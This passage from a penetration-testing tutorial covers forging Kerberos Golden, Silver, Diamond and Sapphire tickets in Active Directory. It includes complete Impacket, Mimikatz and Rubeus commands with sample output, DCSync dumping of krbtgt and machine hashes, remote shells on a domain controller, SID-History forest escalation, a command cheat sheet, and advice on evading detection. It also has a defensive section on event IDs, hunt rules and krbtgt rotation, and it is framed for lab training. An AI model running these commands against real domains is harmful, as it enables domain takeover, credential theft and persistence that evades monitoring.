    -user-id 500 \
    -groups 512,513,518,519,520 \
    Administrator
```

Flag-by-flag:

- `-nthash` — the `krbtgt` NT hash (use `-aesKey` instead for AES/stealth).
- `-domain-sid` — the base SID from Step 0.
- `-domain` — FQDN of the domain.
- `-user-id 500` — the RID embedded in the PAC (500 = built-in Administrator).
- `-groups 512,513,518,519,520` — the privileged group RIDs written into the PAC: Domain Admins (512), Domain Users (513), Schema Admins (518), Enterprise Admins (519), Group Policy Creator Owners (520). *This* is where the power lives.
- `Administrator` — the principal name stamped on the ticket (cosmetic).

Output:

```text
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for corp.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```

Use it:

```bash
export KRB5CCNAME=Administrator.ccache
klist                           # confirm the ticket is loaded (MIT klist)
psexec.py -k -no-pass corp.local/Administrator@DC01.corp.local
```

`-k` tells Impacket to use Kerberos (the ccache in `KRB5CCNAME`); `-no-pass` says don't prompt for a password. Realistic result:

```text
[*] Requesting shares on DC01.corp.local.....
[*] Found writable share ADMIN$
[*] Uploading file kQwErTy.exe
[*] Opening SVCManager on DC01.corp.local.....
[*] Creating service ... on DC01.corp.local.....
[*] Starting service .....
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
corp\administrator
```

You now have SYSTEM-level RCE on the DC via a ticket the DC never issued.

### Step 2 — Forge a Golden Ticket with Mimikatz (Windows)

On the Windows foothold, the equivalent:

```text
mimikatz # kerberos::purge
mimikatz # kerberos::golden /user:Administrator
    /domain:corp.local
    /sid:S-1-5-21-1004336348-1177238915-682003330
    /krbtgt:1a59bd44fef9e6501a0ffb1f6d235c86
    /id:500 /groups:512,513,518,519,520
    /startoffset:0 /endin:600 /renewmax:10080
    /ptt
```

Note `/endin:600 /renewmax:10080` — **deliberately setting a realistic 10-hour lifetime and 7-day renewal** instead of Mimikatz's tell-tale 10-year default. `/ptt` injects straight into the current logon session. Confirm and use it:

```text
mimikatz # kerberos::list
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: ...
   Server Name       : krbtgt/CORP.LOCAL
   Client Name       : Administrator @ CORP.LOCAL

C:\> dir \\DC01.corp.local\C$
```

### Step 3 — Forge a Silver Ticket for CIFS on FILE01

First get the target's machine account hash:

```bash
secretsdump.py -just-dc-user 'FILE01$' 'CORP.LOCAL/Administrator:P@ssw0rd!@10.10.10.5'
# -> FILE01$:1103:aad3b435...:e3f9c1a4b7d2...:::
```

Forge the Silver Ticket with Impacket, targeting `cifs`:

```bash
ticketer.py -nthash e3f9c1a4b7d2e5f60718293a4b5c6d7e \
    -domain-sid S-1-5-21-1004336348-1177238915-682003330 \
    -domain corp.local \
    -spn cifs/file01.corp.local \
    -user-id 500 -groups 512,513,519 \
    Administrator
```

The one new flag is `-spn cifs/file01.corp.local` — this switches `ticketer.py` from Golden (TGT) to **Silver (TGS for that SPN)**, and it signs with the `FILE01$` key, not `krbtgt`. Use it — notice we talk **only** to FILE01, never the DC:

```bash
export KRB5CCNAME=Administrator.ccache
smbclient.py -k -no-pass corp.local/Administrator@file01.corp.local
```

```text
Type help for list of commands
# use C$
# ls
drwxrwxrwx    0  ...  Windows
drwxrwxrwx    0  ...  Users
#
```

The Mimikatz equivalent adds `/target` and `/service`:

```text
mimikatz # kerberos::golden /user:Administrator /domain:corp.local
    /sid:S-1-5-21-1004336348-1177238915-682003330
    /target:file01.corp.local /service:cifs
    /rc4:e3f9c1a4b7d2e5f60718293a4b5c6d7e
    /id:500 /ptt
```

Here `/rc4` is the *service* key (FILE01$), `/target` the host, `/service` the SPN class. Presenting this ticket to FILE01 generates **no DC log at all** — the defining stealth property of Silver Tickets.

**Self-check for the lab:** you have now (a) dumped `krbtgt`, (b) forged and used a Golden Ticket via both Impacket and Mimikatz, and (c) forged and used a Silver Ticket with no DC contact. Purge tickets between tests with `kerberos::purge` (Windows) or `unset KRB5CCNAME; rm *.ccache` (Linux) so you don't confuse sessions.

---

## Part 8: Diamond and Sapphire Tickets — Forgery That Survives Detection

Classic Golden Tickets have tells: a TGS-REQ with no matching AS-REQ, RC4 in an AES domain, weird lifetimes, and (with modern hardening) PAC-signature problems. **Diamond Tickets** were built to erase those tells by starting from a *legitimate* ticket.

### 8.1 The Diamond Ticket idea

Instead of building a TGT from nothing, a Diamond Ticket:

1. **Requests a real TGT** from the KDC for a low-privilege account you control (a normal AS-REQ -> the DC logs a normal 4768).
2. **Decrypts** that real TGT using the `krbtgt` AES key (which you hold).
3. **Edits the PAC** inside it — e.g. adds Domain Admins (512) to the group list, changes the RID.
4. **Re-encrypts and re-signs** the ticket with `krbtgt`.

The result is a ticket whose **structure, flags, timestamps and validity all came from the real DC** — only the group membership was quietly changed. There is a genuine AS-REQ that matches it, the lifetime is realistic because the DC set it, and the encryption type matches the domain. It defeats the "TGS with no AS-REQ" heuristic outright.



### 8.2 Rubeus diamond in practice

```text
Rubeus.exe diamond /krbkey:5e3d1b7f9a...c21 /user:lowpriv /password:Summer2026!
    /enctype:aes /domain:corp.local /dc:DC01.corp.local
    /ticketuser:Administrator /ticketuserid:500 /groups:512,519 /ptt
```

Flag map:

- `/krbkey` — the `krbtgt` **AES256** key (Diamond uses AES; that's the point — it blends in).
- `/user` + `/password` — a **real, valid** low-priv account, used to make the genuine AS-REQ.
- `/enctype:aes` — request AES so the ticket matches an AES domain.
- `/ticketuser` + `/ticketuserid` — who the modified PAC will claim to be (Administrator / RID 500).
- `/groups:512,519` — privileged groups injected into the *real* PAC.
- `/ptt` — inject the modified ticket.

```text
[*] Requesting a TGT for lowpriv
[*] Building AS-REQ (w/ preauth) for: 'corp.local\lowpriv'
[+] TGT request successful!
[*] Decrypting the TGT with the krbtgt AES256 key
[*] Modifying PAC: adding group RIDs 512, 519; setting user to Administrator (500)
[*] Re-encrypting and signing the ticket
[+] Ticket successfully imported!
```

### 8.3 Sapphire Tickets — going further

A **Sapphire Ticket** (implemented in Impacket's `ticketer.py` via `-impersonate`) takes the idea further: instead of hand-editing a PAC, it obtains a **legitimate PAC of an actually-privileged user** through an **S4U2self + U2U** request, then swaps that whole genuine PAC into the ticket. The PAC isn't merely edited — it's a *real* privileged PAC from the DC, so it survives even close PAC inspection.

```bash
ticketer.py -aesKey 5e3d1b7f9a...c21 \
    -domain-sid S-1-5-21-1004336348-1177238915-682003330 \
    -domain corp.local \
    -impersonate Administrator \
    -request -user lowpriv -password 'Summer2026!' \
    lowpriv_sapphire
```

`-request` + `-impersonate Administrator` tells Impacket to fetch a genuine privileged PAC via S4U and embed it. The trade-off: Diamond/Sapphire still require the `krbtgt` AES key (same crown-jewel prerequisite as Golden), and they require *valid* low-priv credentials to make the seeding request. They buy **stealth**, not a lower privilege bar.

### 8.4 Worked Diamond lab step — verify it looks DC-issued

Continue the Part 7 lab. You already hold the `krbtgt` AES256 key and the domain SID; you also have a real low-priv account `lowpriv:Summer2026!`. Forge and inspect a Diamond Ticket so you can *see* why it evades the "no matching TGT" heuristic:

```text
Rubeus.exe diamond /krbkey:5e3d1b7f9a...c21 /user:lowpriv /password:Summer2026! ^
    /enctype:aes /domain:corp.local /dc:DC01.corp.local ^
    /ticketuser:Administrator /ticketuserid:500 /groups:512,519 /nowrap /ptt
```

Now decode the imported ticket with `describe` and read the fields the DC filled in:

```text
Rubeus.exe describe /ticket:doIFuj...   (base64 from the previous /nowrap output)

  ServiceName           :  krbtgt/CORP.LOCAL
  ServiceRealm          :  CORP.LOCAL
  UserName              :  Administrator        <- set by /ticketuser
  UserRealm             :  CORP.LOCAL
  StartTime             :  <realistic, DC-set>
  EndTime               :  <StartTime + 10h>    <- matches domain policy, NOT 10 years
  RenewTill             :  <StartTime + 7d>
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1 <- etype 18, blends with real traffic
  Base64EncodedTicket   :  ...
```

Contrast every one of those fields with a Golden Ticket forged from nothing: the Golden's `StartTime`/`EndTime` come from *your* flags (and default to a decade), its flags may differ subtly from what this DC issues, and — most importantly — there is **no preceding AS-REQ** on the DC for it. The Diamond above produced a genuine event **4768** for `lowpriv` when Rubeus asked for the real TGT, so the later TGS-REQ has a matching TGT and the "4769 without 4768" rule stays silent.

**Blue team usage:** the residual tell for a Diamond Ticket is *semantic*, not structural — the `lowpriv` account suddenly presents a PAC containing `Domain Admins`, and a real 4768 for `lowpriv` is followed by privileged access (4672 with admin privileges, or 4769 for sensitive SPNs) that `lowpriv` has no business performing. Detection therefore shifts from "malformed ticket" to "impossible privilege for this identity" — a UEBA/behavioural problem, which is exactly why Diamond Tickets are harder to catch and why BloodHound-style *pre-emptive* attack-path reduction matters more than post-hoc log rules here.

| Property | Golden | Diamond | Sapphire |
| --- | --- | --- | --- |
| Requires krbtgt key | Yes | Yes (AES) | Yes (AES) |
| Needs valid low-priv creds | No | Yes | Yes |
| Matching AS-REQ (4768) exists | No | Yes | Yes |
| PAC is DC-authored | No (fabricated) | Partly (edited real) | Yes (real privileged PAC) |
| Survives PAC inspection | Weakly | Well | Best |
| Tool | ticketer / Mimikatz / Rubeus | Rubeus diamond | ticketer -impersonate |

---

## Part 9: Encryption-Type Opsec — RC4 vs AES

The single biggest, easiest-to-fix operational tell in this chapter is **encryption type**. Modern domains negotiate **AES256** (`etype 18`) for Kerberos. RC4 (`etype 23`) is legacy. If you forge an **RC4** ticket and inject it into an AES domain, you create a glaring anomaly: an RC4 TGT/TGS where everything else is AES. Detections like "RC4 encryption requested by a non-legacy account" (event 4769 with `Ticket Encryption Type 0x17`) fire on exactly this.

Guidance:

- **Prefer AES keys** for Golden, Silver, and always for Diamond. Use `-aesKey` (Impacket), `/aes256` (Mimikatz), `/krbkey` with an AES key (Rubeus). You already dumped the AES keys in Step 0 — use them.
- **RC4 downgrade is a red flag.** The "Bronze Bit" era detections and many SIEM rules treat unexpected RC4 as high-signal. Don't hand it to them.
- **Match the domain.** If the domain is RC4-heavy (older functional level), AES might itself be anomalous — profile first with a legitimate `klist` / a captured 4768 to see what real tickets use, then match it.



| Encryption type | etype | Meaning | Forgery opsec |
| --- | --- | --- | --- |
| AES256-CTS-HMAC-SHA1-96 | 18 | Modern default | Preferred — blends in |
| AES128-CTS-HMAC-SHA1-96 | 17 | Modern | Acceptable |
| RC4-HMAC | 23 (0x17) | Legacy / NT hash | High detection risk in AES domains |
| DES | 1/3 | Obsolete | Never |

**Blue team usage:** an alert on "Kerberos RC4 ticket requested where AES is expected" catches naïve Golden/Silver forgery cheaply. Pair it with account-context (a computer or admin account suddenly using RC4) to cut false positives.

---

## Part 10: Detection & Defense Angle

This is the one consolidated defensive section. Golden/Silver/Diamond tickets are post-compromise techniques — by the time they're used, the attacker already had DA or the relevant key — so defense splits into **prevent the key theft**, **detect the forged ticket**, and **remediate after `krbtgt` exposure**.

### 10.1 Detection signals



| Signal | Event / source | Which attack | Notes |
| --- | --- | --- | --- |
| TGS-REQ with no prior AS-REQ | 4769 without matching 4768 | Golden | Diamond defeats this (has a real 4768) |
| RC4 in an AES domain | 4769 `Ticket Options`/etype 0x17 | Golden/Silver | Cheap, high-signal |
| Absurd ticket lifetime | 4769/ticket inspection | Golden (10-yr default) | Skilled operators avoid |
| Username/SID mismatch or nonexistent user | 4769 account fields | Golden | PAC name vs known accounts |
| Host access with no DC ticket events | Host 4624/4672 but no DC 4768/4769 | **Silver** | The Silver tell — correlate host to DC |
| Anomalous group in PAC for a user | PAC/token inspection | Diamond/Golden | Requires PAC-aware tooling |
| `DCSync` of krbtgt/machine account | 4662 replication (GUID `1131f6aa`) | Precursor | Catch the key theft itself |

To make the RC4 tell concrete, here is the relevant slice of a Windows **4769** (TGS-REQ) event produced by a naïve RC4 Golden Ticket in an AES domain — the field a hunt rule keys on:

```text
A Kerberos service ticket was requested.
  Account Information:
    Account Name:         Administrator@CORP.LOCAL
    Account Domain:       CORP.LOCAL
  Service Information:
    Service Name:         cifs/DC01.corp.local
  Network Information:
    Client Address:       ::ffff:10.10.14.7
  Additional Information:
    Ticket Options:       0x40810000
    Ticket Encryption Type:  0x17          <-- 0x17 = RC4-HMAC in an AES-only domain
    Failure Code:         0x0
```

`Ticket Encryption Type: 0x17` on an account that should be negotiating AES (`0x12`) is the anomaly. A hunt query as simple as `EventID=4769 AND TicketEncryptionType=0x17 AND Account in (privileged_accounts)` surfaces most unsophisticated Golden/Silver forgery. The **most robust single detection is the precursor**: DCSync of `krbtgt` (Directory Service Access event **4662** with the replication extended-right GUIDs) from a non-DC principal. If you catch the key theft, you never have to catch the forged ticket. **Silver Tickets** are the hardest to detect on the DC (no DC events at all), so defense there relies on **host-side** logs and on making service tickets short-lived and validated.

Example Sigma-style logic (conceptual) for the Golden "no AS-REQ" heuristic:

```yaml
title: Possible Golden Ticket - TGS without preceding TGT
logsource: { product: windows, service: security }
detection:
  tgs:
    EventID: 4769
  timeframe: 10h
  condition: tgs and not any(4768 for same user+client-ip within timeframe)
level: high
```

### 10.2 Prevention and hardening

- **Protect the keys.** Credential Guard, Protected Users group, LSASS protection (RunAsPPL), tiered administration (Chapter 5's Part on tiering) — stop `krbtgt`/machine-hash theft in the first place. DCSync requires replication rights: audit and restrict who holds them.
- **Rotate `krbtgt` on a schedule and twice on compromise.** Microsoft's `KrbtgtKeys.ps1`/`Reset-KrbtgtKeyInteractive` and the "double-tap" (reset, wait > max ticket lifetime + replication, reset again) invalidate all Golden Tickets. Rotating once is insufficient (current+previous key both accepted).
- **Enable PAC validation and apply signature hardening.** The November 2021/2022 rollups (KB5008380 / KB5020805 and the enforcement phases) strengthen PAC signatures and add the Ticket Signature; running DCs in **enforcement mode** breaks classic Silver Tickets whose KDC signature is invalid.
- **Enforce AES, retire RC4.** Set `msDS-SupportedEncryptionTypes` to AES-only where possible; every forged RC4 ticket then stands out.
- **Rotate machine-account passwords** (default 30 days) and don't disable the rotation — it caps how long a stolen `MACHINE$` hash stays useful for Silver Tickets.
- **Shorten ticket lifetimes** in the Kerberos policy (default 10h TGT / 7d renewal) so even a realistic-looking forged lifetime has a smaller blast radius, and behavioural anomalies surface faster.

**IR use case:** on confirmed `krbtgt` compromise, assume every Golden Ticket possible was minted. The playbook is: contain, double-rotate `krbtgt`, rotate all privileged and machine credentials that could have been dumped alongside it, hunt for Silver-ticket persistence on member servers, and — for high-assurance environments — plan a forest rebuild, because a sufficiently patient attacker may have seeded multiple persistence mechanisms behind the ticket.

---

## Part 11: Cross-Domain and Forest Escalation with SID History

A Golden or Diamond Ticket can carry **SID History** via the `/sids` (Mimikatz/Rubeus) or `-extra-sid` (Impacket) flag. SID History is a legitimate migration feature: when accounts move between domains, their old SIDs are retained so old ACLs still apply. Attackers abuse it to inject the SID of a privileged group from a *parent* domain into a child-domain Golden Ticket.

The classic escalation: you own a **child domain** (`child.corp.local`) and dump its `krbtgt`. You forge a Golden Ticket that includes, in SID History, the **Enterprise Admins** SID of the *parent* (`S-1-5-21-<root>-519`). Because Enterprise Admins is a forest-wide group and the trust between parent and child passes SID History, that ticket grants **forest-wide** admin — escalating from child-domain compromise to full forest ownership.

```bash
ticketer.py -nthash <child_krbtgt_hash> \
    -domain-sid S-1-5-21-<child> \
    -domain child.corp.local \
    -extra-sid S-1-5-21-<root>-519 \
    -user-id 500 -groups 512,519 \
    Administrator
```

`-extra-sid S-1-5-21-<root>-519` embeds the parent forest's Enterprise Admins SID. **The defence** is **SID Filtering** on trusts, which strips foreign SIDs from tickets crossing a trust boundary — enabled by default on external/forest trusts but historically *disabled* within a single forest's parent-child trusts (which are considered "trusted"), which is precisely why intra-forest SID History escalation works. Treat every child domain as a path to the forest root.

---

## Part 12: Building a Safe Lab to Practise This

Never practise ticket forgery anywhere but a lab you own. A minimal, cheap setup:

- **DC:** one Windows Server (2019/2022 eval ISO) promoted to a new forest `corp.local`. `Install-ADDSForest` in PowerShell.
- **Member server:** one Windows Server or Windows 10/11 joined to the domain, with a `C$` share and maybe SQL Server Express for an `MSSQLSvc` SPN.
- **Attacker:** Kali with Impacket, plus a Windows box (or the member server) for Rubeus/Mimikatz.
- Create a few users, make one a Domain Admin, set some SPNs (`setspn -a MSSQLSvc/sql01.corp.local:1433 corp\svc_sql`).

Prebuilt options that already contain these attacks: **GOAD (Game of Active Directory)** by Orange Cyberdefense — a Vagrant/Ansible multi-domain forest purpose-built for Kerberos abuse; **DetectionLab**; and the **HTB Pro Labs** (Dante, Offshore, RastaLabs, Cybernetics) plus individual AD boxes. On these you can safely dump `krbtgt`, mint Golden/Silver/Diamond tickets, and — just as valuable — turn on the DC auditing from Part 10 and watch your own attacks light up the logs.

**Turn on the telemetry.** In the lab, enable "Audit Kerberos Service Ticket Operations" and "Audit Kerberos Authentication Service" (Advanced Audit Policy), then run each attack and read the 4768/4769/4662 events yourself. Doing forgery *and* detection on the same box is the fastest way to internalise why Diamond beats Golden and why Silver leaves the DC blind.

---

## Part 13: Final Revision / Summary

- **One idea:** Kerberos trusts tickets because they **decrypt with the expected key**, not because it tracks what it issued. Hold the key -> author the ticket.
- **Golden Ticket** = forged **TGT** signed with **`krbtgt`**. Impersonates anyone (even nonexistent users), domain-wide, near-unlimited lifetime. Cure = **double-rotate `krbtgt`**.
- **Silver Ticket** = forged **TGS** signed with a **single service/machine key**. Narrow (one service/host) but **no DC contact** -> stealthy. Historically exploited the unchecked **KDC signature**.
- **Diamond Ticket** = request a **real** TGT, decrypt with `krbtgt` AES, **edit the PAC**, re-encrypt. Has a matching AS-REQ and realistic structure -> beats the "TGS with no TGT" detection.
- **Sapphire Ticket** = swap in a **genuine privileged PAC** via S4U -> survives even PAC inspection.
- **The PAC** carries the group SIDs that become your token; the **two signatures** (Server = service key, KDC = `krbtgt`) are what forgery must satisfy — Golden satisfies both, classic Silver cannot satisfy the KDC one.
- **Opsec:** prefer **AES** keys, set **realistic lifetimes**, minimise DC round-trips. RC4-in-an-AES-domain and 10-year TGTs are free detections you must not give away.
- **Prereq for all of them:** you already had DA or the relevant key. These are **persistence/impersonation**, not initial access.
- **Detection:** best signal is the **precursor** (DCSync of `krbtgt`, event 4662); then 4769-without-4768 (Golden), RC4 anomalies, and host-only access with no DC events (Silver).
- **`krbtgt` theft = domain compromise.** Assume the worst, double-rotate, and consider a rebuild for high-assurance forests.

---

## Part 14: Cheat Sheet / Quick Reference

**Dump keys (DCSync):**

```bash
secretsdump.py -just-dc-user krbtgt   'DOM/Administrator:PW@DC_IP'   # Golden/Diamond key
secretsdump.py -just-dc-user 'HOST$'  'DOM/Administrator:PW@DC_IP'   # Silver (machine) key
lookupsid.py 'DOM/Administrator:PW@DC_IP' 0                          # domain SID + RIDs
```

**Golden Ticket:**

```bash
# Impacket (Linux) - prefer -aesKey over -nthash for stealth
ticketer.py -aesKey <krbtgt_aes256> -domain-sid <SID> -domain dom.local \
    -user-id 500 -groups 512,513,518,519,520 Administrator
export KRB5CCNAME=Administrator.ccache && psexec.py -k -no-pass dom.local/Administrator@dc.dom.local
```

```text
# Mimikatz (Windows) - realistic lifetime, AES key
kerberos::golden /user:Administrator /domain:dom.local /sid:<SID> /aes256:<krbtgt_aes256> ^
    /id:500 /groups:512,519 /endin:600 /renewmax:10080 /ptt
```

**Silver Ticket:**

```bash
ticketer.py -aesKey <HOST$_aes> -domain-sid <SID> -domain dom.local \
    -spn cifs/host.dom.local -user-id 500 -groups 512 Administrator
export KRB5CCNAME=Administrator.ccache && smbclient.py -k -no-pass dom.local/Administrator@host.dom.local
```

```text
# Mimikatz Silver
kerberos::golden /user:Administrator /domain:dom.local /sid:<SID> ^
    /target:host.dom.local /service:cifs /aes256:<HOST$_aes> /id:500 /ptt
```

**Diamond / Sapphire:**

```text
# Rubeus Diamond
Rubeus.exe diamond /krbkey:<krbtgt_aes256> /user:lowpriv /password:PW /enctype:aes ^
    /domain:dom.local /dc:dc.dom.local /ticketuser:Administrator /ticketuserid:500 /groups:512,519 /ptt
```

```bash
# Impacket Sapphire (genuine privileged PAC via S4U)
ticketer.py -aesKey <krbtgt_aes256> -domain-sid <SID> -domain dom.local \
    -impersonate Administrator -request -user lowpriv -password PW lowpriv_sap
```

**SID-History forest escalation (from child domain):**

```bash
ticketer.py -nthash <child_krbtgt> -domain-sid <child_SID> -domain child.dom.local \
    -extra-sid <root_SID>-519 -user-id 500 -groups 512,519 Administrator
```

**Manage tickets:**

```text
kerberos::list      /   klist                 # list
kerberos::ptt t.kirbi / export KRB5CCNAME=x   # inject / point
kerberos::purge     /   kdestroy              # clear
Rubeus.exe describe /ticket:<b64>             # decode + inspect (etype, groups, lifetime)
```

**Key event IDs:** 4768 (AS-REQ/TGT), 4769 (TGS-REQ), 4672 (special privileges), 4662 (DCSync/replication).

**Remediation:** double-rotate `krbtgt` (reset -> wait > max ticket life + replication -> reset again). Rotate machine passwords. Enforce AES. Enable PAC-signature enforcement.

---

## Part 15: Common Pitfalls

- **Rotating `krbtgt` only once.** Kerberos keeps current + previous key; a single reset leaves Golden Tickets valid. Always reset twice with a gap.
- **Forging RC4 in an AES domain.** The single loudest tell. Dump and use the AES key you already have.
- **Leaving Mimikatz's 10-year default lifetime.** Set `/endin` and `/renewmax` to realistic values or you're advertising the attack.
- **Wrong SID.** Using an account RID as the "domain SID," or including the trailing RID in `-domain-sid`. The domain SID is the `S-1-5-21-a-b-c` prefix only.
- **Assuming Silver needs the DC.** It doesn't — that's the point. Don't waste time troubleshooting DC connectivity for a Silver Ticket; check the *service key* and the *SPN spelling* instead.
- **Wrong service key for Silver.** For host services use the `MACHINE$` hash, not a user's. For an `MSSQLSvc` SPN run by a user account, use that user's hash.
- **Expecting Golden without the domain SID or with a stale `krbtgt`.** If you dumped `krbtgt` before a rotation, your key is dead — re-dump.
- **Diamond/Sapphire without valid low-priv creds.** They *require* a real account to seed the genuine AS-REQ; you can't do them with the `krbtgt` key alone.
- **Machine password rotated out from under a Silver Ticket.** After ~30 days the `MACHINE$` hash changes; a Silver Ticket keyed to the old hash stops working. Re-dump if it suddenly fails.

---

## Part 16: Practice Labs & Resources

Train these *specific* skills, not generic AD:

- **GOAD (Game of Active Directory)** — the definitive practice range for Kerberos delegation and ticket attacks; its multi-domain forest is ideal for **SID-History forest escalation** (Part 11). Build it, dump `krbtgt`, mint each ticket type.
- **TryHackMe — "Persisting Active Directory"** and **"Attacking Kerberos"** rooms: walk Golden and Silver Ticket forging with Mimikatz and Rubeus, with guided detection.
- **HackTheBox — Active Directory boxes and Pro Labs:** *Forest*, *Sauna*, *Blackfield* for the Kerberoast->DA->Golden pipeline; **Dante / Offshore / RastaLabs** for chained ticket persistence across a network.
- **HackTheBox Academy — "Kerberos Attacks" / "Active Directory Enumeration & Attacks"** modules: structured coverage of Golden, Silver, and Diamond tickets with lab targets.
- **Impacket examples** (`ticketer.py`, `getST.py`, `secretsdump.py`) — read the source to see exactly which PAC fields each flag fills; it's the best documentation of the attack's mechanics.
- **Detection practice — DetectionLab / Splunk Attack Range / Atomic Red Team (T1558 sub-techniques):** run each ticket attack, then hunt it in the logs. T1558.001 (Golden), T1558.002 (Silver), T1558.003 (Kerberoasting), plus the Diamond ticket procedure.
- **Reading:** the original Mimikatz Golden Ticket writeups, Microsoft's KRBTGT reset guidance and the November 2021/2022 PAC-signature (KB5008380 / KB5020805) advisories, and the SpecterOps/GhostPack Rubeus documentation for Diamond tickets.

Practice questions to test yourself:

1. A domain runs at Windows Server 2016 functional level with AES enforced. You forge an RC4 Golden Ticket and it works — but a SOC alert fires within minutes. What did you get wrong, and what would you change?
2. You have the `FILE01$` machine hash but no Domain Admin and no `krbtgt`. Which ticket type can you forge, what exactly can it access, and why does presenting it generate no Domain Controller logs?
3. Explain precisely why resetting the `krbtgt` password once does **not** kill existing Golden Tickets, and what the correct remediation sequence is.
4. A Diamond Ticket and a Golden Ticket both require the `krbtgt` key. What does the Diamond Ticket additionally require, and which specific detection does that extra requirement let it defeat?
5. You compromised a child domain and dumped its `krbtgt`. Describe how you would escalate to the forest root, which flag you'd use, and which trust-level control (if enabled) would stop you.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/06-golden-silver-and-diamond-ticket-attacks), with comments and the latest edits.*
